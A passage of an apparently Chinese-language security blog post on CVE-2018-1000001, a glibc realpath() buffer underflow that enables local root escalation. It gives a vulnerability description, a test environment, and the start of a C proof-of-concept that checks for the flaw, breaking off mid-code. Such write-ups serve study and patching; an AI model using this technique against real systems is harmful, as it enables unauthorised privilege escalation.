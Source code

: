 ```yaml
---
layout: post
title:  "CVE–2018-1000001 glibc realpath 缓冲区下溢漏洞"
image: ''
date:   2018-02-10 00:06:31
tags:
- cve
- overflow
description: ''
categories:
- cve
---
```


- [漏洞描述](#漏洞描述)
- [漏洞复现](#漏洞复现)
- [漏洞分析](#漏洞分析)
- [Exploit](#exploit)
- [参考资料](#参考资料)


## 漏洞描述
该漏洞涉及到 Linux 内核的 `getcwd` 系统调用和 glibc 的 `realpath()` 函数，可以实现本地提权。漏洞产生的原因是 `getcwd` 系统调用在 Linux-2.6.36 版本发生的一些变化，我们知道 `getcwd` 用于返回当前工作目录的绝对路径，但如果当前目录不属于当前进程的根目录，即从当前根目录不能访问到该目录，如该进程使用 `chroot()` 设置了一个新的文件系统根目录，但没有将当前目录的根目录替换成新目录的时候，`getcwd` 会在返回的路径前加上 `(unreachable)`。通过改变当前目录到另一个挂载的用户空间，普通用户也可以完成这样的操作。然后返回的这个非绝对地址的字符串会在 `realpath()` 函数中发生缓冲区下溢，从而导致任意代码执行，再利用 SUID 程序即可获得目标系统上的 root 权限。


## 漏洞复现
| |推荐使用的环境 | 备注 |
| --- | --- | --- |
| 操作系统 | Ubuntu 16.04 | 体系结构：64 位 |
| 调试器 | gdb-peda| 版本号：7.11.1 |
| 漏洞软件 | glibc | 版本号：2.23-0ubuntu9 |

```c
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>

void main() {
    //char *path;

    struct {
        char canary[16];
        char buffer[80];
    } buf;
    memset(buf.canary, 47, 1);  // put a '/' before the buffer
    memset(buf.buffer, 48, sizeof(buf.buffer));
    
    //path = getcwd(NULL, 0);
    //puts(path);
    
    chroot("/tmp");
    //path = getcwd(NULL, 0);
    //puts(path);

    realpath("../../../../BBBB", buf.buffer);
    if (!strcmp(buf.canary, "/BBBB")) {
        puts("Vulnerable");
```